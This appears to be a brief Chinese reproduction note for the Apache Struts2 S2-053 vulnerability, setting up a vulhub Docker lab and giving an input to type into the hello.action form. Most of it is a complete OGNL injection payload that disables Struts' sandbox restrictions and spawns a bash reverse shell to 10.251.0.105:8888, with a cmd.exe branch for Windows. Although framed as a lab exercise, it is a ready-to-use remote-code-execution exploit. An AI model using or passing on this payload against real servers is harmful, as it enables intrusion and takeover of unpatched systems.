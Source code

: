 # s2-053复现

## 1.环境搭建

[vulhub/structs2/s2-053](https://github.com/vulhub/vulhub/tree/master/struts2/s2-053)

```bash
docker-compose up -d
```

## 2.复现

访问http://ip:8080/hello.action

在输入框中输入：

```java
Linux反弹bash shell(文末换行不能丢)：
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='/bin/bash >& /dev/tcp/10.251.0.105/8888 0>&1 ').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(@org.apache.commons.io.IOUtils@toString(#process.getInputStream()))}

```

